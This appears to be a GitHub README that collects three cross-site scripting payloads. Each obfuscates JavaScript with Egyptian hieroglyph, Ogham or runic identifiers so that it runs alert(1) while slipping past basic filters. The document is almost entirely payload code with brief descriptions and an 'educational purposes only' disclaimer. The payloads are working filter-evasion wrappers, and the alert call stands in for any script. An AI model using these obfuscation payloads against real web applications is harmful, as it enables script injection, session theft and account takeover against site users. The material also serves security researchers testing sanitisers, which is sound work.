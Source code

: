 
![megalithiccat-crow](https://github.com/user-attachments/assets/f2462ee8-459d-44d3-b146-f9cdb6e302bc)


# Exotic XSS Payloads in Dead and Unconventional Scripts

This document extends the collection of XSS payloads by incorporating additional scripts, focusing on dead or unconventional writing systems. Each payload is designed to execute `alert(1)` in a browser environment while using unique character sets to obfuscate the code. These are intended for **educational and security research purposes only**. Do not use these payloads in any malicious or unauthorized manner.

## Payloads

Below are new XSS payloads written in various dead or unconventional scripts, each designed to trigger `alert(1)`.

### 1. Egyptian Hieroglyphs-Based Payload
Using Unicode characters for Egyptian hieroglyphs, this payload leverages an ancient script to encode a functional XSS payload.

```
𓄿='',𓅱=!𓄿+𓄿,𓇳=!𓅱+𓄿,𓉔=𓄿+{},𓊵=𓅱[𓄿++],𓋴=𓅱[𓈖=𓄿],𓍯=++𓈖+𓄿,𓎛=𓉔[𓈖+𓍯],𓅱[𓎛+=𓉔[𓄿]+(𓅱.𓇳+𓉔)[𓄿]+𓇳[𓍯]+𓊵+𓋴+𓅱[𓈖]+𓎛+𓊵+𓉔[𓄿]+𓋴][𓎛](𓇳[𓄿]+𓇳[𓈖]+𓅱[𓍯]+𓋴+𓊵+"(𓄿)")()
```

- **Description**: Encoded using Egyptian hieroglyphs (Unicode block U+13000–U+1342F), this payload obfuscates JavaScript to execute `alert(1)`. The use of hieroglyphs makes it highly unconventional and potentially difficult for basic filters to detect.

### 2. Ogham-Based Payload
Ogham is an ancient Irish script (Unicode block U+1680–U+169F) used primarily for Old Irish inscriptions.

```
ᚐ='',ᚑ=!ᚐ+ᚐ,ᚒ=!ᚑ+ᚐ,ᚓ=ᚐ+{},ᚔ=ᚑ[ᚐ++],ᚕ=ᚑ[ᚖ=ᚐ],ᚗ=++ᚖ+ᚐ,ᚘ=ᚓ[ᚖ+ᚗ],ᚑ[ᚘ+=ᚓ[ᚐ]+(ᚑ.ᚒ+ᚓ)[ᚐ]+ᚒ[ᚗ]+ᚔ+ᚕ+ᚑ[ᚖ]+ᚘ+ᚔ+ᚓ[ᚐ]+ᚕ][ᚘ](ᚒ[ᚐ]+ᚒ[ᚖ]+ᚑ[ᚗ]+ᚕ+ᚔ+"(ᚐ)")()
```

- **Description**: This payload uses the Ogham alphabet, a script rarely seen in modern contexts, to encode an XSS payload that triggers `alert(1)`.

### 3. Runic-Based Payload
Runes, used by Germanic and Scandinavian peoples (Unicode block U+16A0–U+16FF), provide another unconventional script for XSS obfuscation.

```
ᚨ='',ᚹ=!ᚨ+ᚨ,ᛒ=!ᚹ+ᚨ,ᛖ=ᚨ+{},ᛚ=ᚹ[ᚨ++],ᛜ=ᚹ[ᛁ=ᚨ],ᛟ=++ᛁ+ᚨ,ᛢ=ᛖ[ᛁ+ᛟ],ᚹ[ᛢ+=ᛖ[ᚨ]+(ᚹ.ᛒ+ᛖ)[ᚨ]+ᛒ[ᛟ]+ᛚ+ᛜ+ᚹ[ᛁ]+ᛢ+ᛚ+ᛖ[ᚨ]+ᛜ][ᛢ](ᛒ[ᚨ]+ᛒ[ᛁ]+ᚹ[ᛟ]+ᛜ+ᛚ+"(ᚨ)")()
```

- **Description**: Written in the Elder Futhark runic alphabet, this payload executes `alert(1)` while blending into contexts where runic characters might be overlooked.
